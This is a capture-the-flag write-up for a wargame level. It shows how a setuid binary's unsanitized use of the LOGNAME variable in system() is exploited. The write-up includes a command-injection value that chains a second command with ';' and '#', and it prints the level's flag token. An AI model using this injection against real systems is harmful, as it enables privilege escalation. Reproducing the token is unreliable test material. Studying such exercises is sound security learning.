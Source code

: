 # Level07 Solution

## Steps:
1. Connected via SSH: `ssh level07@192.168.16.128 -p 4242`
2. Analyzed the binary `level07`:
   - It is a setuid binary owned by `flag07`.
   - Used `ltrace` to understand its behavior:
     ```bash
     ltrace ./level07
     ```
     Output:
     ```
     getenv("LOGNAME") = "level07"
     asprintf(0xbffff744, 0x8048688, 0xbfffff46, 0xb7e5ee55, 0xb7fed280) = 18
     system("/bin/echo level07")
     ```
   - The binary retrieves the `LOGNAME` environment variable and uses it in a `system` call without sanitization.
3. Identified the vulnerability:
   - The `system` call is: `system("/bin/echo $LOGNAME")`
   - Since `LOGNAME` is user-controlled, we can inject commands.
4. Exploited via environment variable injection:
   - Set `LOGNAME` to a malicious value:
     ```bash
     export LOGNAME="; getflag #"
     ```
     - `;` ends the `echo` command and starts a new one.
     - `getflag` executes to print the token.
     - `#` comments out the rest of the command.
5. Ran the binary:
   - Command: `./level07`
   - Output: `Check flag.Here is your token : fiumuikeil55xe9cu4dood66h`
6. Obtained the token: `fiumuikeil55xe9cu4dood66h`

## Notes:
- The binary is setuid and owned by `flag07`, so it runs with the privileges of `flag07`.
- The `system` function is called with a string built from the `LOGNAME` environment variable without sanitization.
- Command injection is possible using `;` to chain commands and `#` to comment out the rest.

## Tools used:
- `ltrace` (to trace library calls)
- `export` (to set environment variables)
- Command injection technique

## Vulnerability:
- Unsafe use of `system` with user-controlled environment variables.